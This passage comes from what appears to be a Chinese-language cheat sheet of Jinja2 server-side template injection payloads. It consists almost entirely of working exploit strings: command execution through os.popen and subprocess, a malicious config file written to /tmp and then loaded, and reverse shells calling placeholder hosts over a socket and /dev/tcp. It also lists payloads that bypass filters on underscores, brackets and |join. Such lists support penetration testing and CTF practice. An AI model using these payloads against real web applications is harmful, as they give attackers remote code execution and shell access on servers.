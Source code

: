 	{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

	{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
	较短的payload
	{{ cycler.__init__.__globals__.os.popen('id').read() }}

	{{ joiner.__init__.__globals__.os.popen('id').read() }}

	{{ namespace.__init__.__globals__.os.popen('id').read() }}
	通过调用 subprocess.Popen 来 SSTI
	{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
	{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
	调用 Popen 来利用 SSTI 而无需猜测偏移量
	{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
	https://twitter.com/SecGus/status/1198976764351066113
	只需修改payload以清理输出，在另一个 GET 参数中包含一个名为“input”的变量，其中包含您要运行的命令（例如： &输入=ls)
	{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
	编写恶意配置文件来利用 SSTI
	# 恶意配置文件
	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

	# 加载
	{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

	# 反弹
	{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
	绕过过滤
	request.__class__
	request["__class__"]
	绕过 _
	http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

	{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
	{{request|attr(["_"*2,"class","_"*2]|join)}}
	{{request|attr(["__","class","__"]|join)}}
	{{request|attr("__class__")}}
	{{request.__class__}}
	绕过[和]
	http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
	or
	http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
	绕过|join
	http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
	绕过最常见的过滤器（'.'、'_'、'|join'、'['、']'、'mro' 和 'base'）
	https://twitter.com/SecGus
	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
  #### Jinjava
  	基本注入